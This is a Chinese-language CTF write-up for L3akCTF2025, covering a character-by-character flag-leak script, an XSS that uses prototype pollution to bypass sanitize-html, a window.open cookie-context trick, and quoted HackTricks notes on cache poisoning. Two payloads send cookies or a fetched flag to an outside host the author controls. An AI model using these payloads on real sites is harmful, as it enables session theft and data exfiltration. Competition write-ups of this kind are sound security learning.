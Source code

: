 ```yaml
---
title: L3akCTF2025 Writeup & 复盘
date: 2025-07-28T16:25:41+08:00
tags:
---
```

拿到468分，取得493名的垫底成绩。

# Flag L3ak

```js
    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));
```

大意是有一个flag，但flag会被替换成`*`，然后限制输入内容不得大于3个字符。

虽然看不到flag，但是注意到如果`query`的内容包含flag，那么对应结果也会被返回，即使看不到flag

通过*两个已知字符+一个未知字符*的方式可以逐位leak出flag。

```js
const url = "http://34.134.162.213:17000/api/search"

const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+[]{}|;:',.<>?/~`\"";
////////////////************************
const prefix = "L3AK{L3ak1ng_th3_Fl4g??}"

;(async()=>{
    for (let i = 0; i < charset.length; i++) {
        const char = charset[i];
        const query = prefix.substring(prefix.length-2) + char;
  
        try {
            const response = fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ query })
            }).then(res => res.json()).then(
                data=>{
            
            console.log(`Character: ${char}, Response:`, data.count, data.count>0?"<--------------- FOUND":"");
                }
            );
        } catch (error) {
            console.error(`Error fetching for character ${char}:`, error);
        }
    }
})()
```

想到一个东西，如果flag中包含多于2种的>3个连续相同字符，那这个方案会解决不了，虽然题目中没有出现。

# NotoriousNote

```js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```

这个理论上就应该是XSS了，不过这边看起来没啥问题。

除了核心，还包含了两个js文件

一个`sanitize-html.min.js`，看了下是官方库+最新版，不像有洞的样子

另一个`Query.js`，定义了一个叫QueryArg的函数。查了npm没找到这个库，那么应该是自己写的了。直接拖给LLM看了一下，说有很严重的prototype polution风险

查到了这篇文章：[原型污染-并绕过客户端HTML过滤器-先知社区](https://xz.aliyun.com/news/7896)，说的就是用原型链污染绕过sanitize-html的

总之构造出payload：``/?__proto__.*=onload&note=<iframe onload="javascript:fetch(`https://dev.5dbwat4.top/r/${document.cookie}`)"></iframe>``

拿到flag：`L3AK{v1b3_c0d1n9_w3nt_t00_d33p_4nd_3nd3d_1n_xss}`

# Window of Opportunity

这不是当初ACTF 2025那道Note的非预期解吗

大概就是

```js
  await page.evaluate((targetUrl) => {
    window.open(targetUrl, "_blank");
  }, url);
```

这个行为会让新打开的窗口继承父窗口的上下文（这里主要是要利用它的cookie），因此可以利用这个特性。

payload：`javascript:fetch('/get_flag').then(v=>v.text()).then(v=>{fetch('https://dev.5dbwat4.top/aaa-'+v)})`

---

看了官方solution，他是自己新写了一个页面，然后用`window.opener`操作父窗口来获取flag。

# Others

然后还做出了一道geosint，一道Misc（`Solve the puzzles, shouldnt take more than 10 minutes to do by hand`），以及一道AI直出的Crypto题

# 复盘

主要是想看看Reverse里的两道JS Obfuscation题目，以及剩下来的Web题。

## not-a-vm

```js
const originalApply = Function.prototype.apply;
Function.prototype.apply = function (thisArg, args) {
  console.log(args?.[0])
  return originalApply.call(this, thisArg, args);
};
```

经典函数钩子

## gitbad

SSRF，用的是git submodule实现的

另外是这里也出现了和L3HCTF一样的cache-poisoning用法

（连续几次出现可以直接鉴定为常用技巧了）

查了一下cache-poisoning [Cache Poisoning and Cache Deception - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/cache-deception/index.html)

With the parameter/header identified check how it is being **sanitised** and **where** is it **getting reflected** or affecting the response from the header. Can you abuse it anyway (perform an XSS or load a JS code controlled by you? perform a DoS?...)

Once you have **identified** the **page** that can be abused, which **parameter**/**header** to use and **how** to **abuse** it, you need to get the page cached. Depending on the resource you are trying to get in the cache this could take some time, you might need to be trying for several seconds.

The header **`X-Cache`** in the response could be very useful as it may have the value **`miss`** when the request wasn't cached and the value **`hit`** when it is cached.
The header **`Cache-Control`** is also interesting to know if a resource is being cached and when will be the next time the resource will be cached again: `Cache-Control: public, max-age=1800`

Another interesting header is **`Vary`**. This header is often used to **indicate additional headers** that are treated as **part of the cache key** even if they are normally unkeyed. Therefore, if the user knows the `User-Agent` of the victim he is targeting, he can poison the cache for the users using that specific `User-Agent`.

One more header related to the cache is **`Age`**. It defines the times in seconds the object has been in the proxy cache.

When caching a request, be **careful with the headers you use** because some of them could be **used unexpectedly** as **keyed** and the **victim will need to use that same header**. Always **test** a Cache Poisoning with **different browsers** to check if it's working.
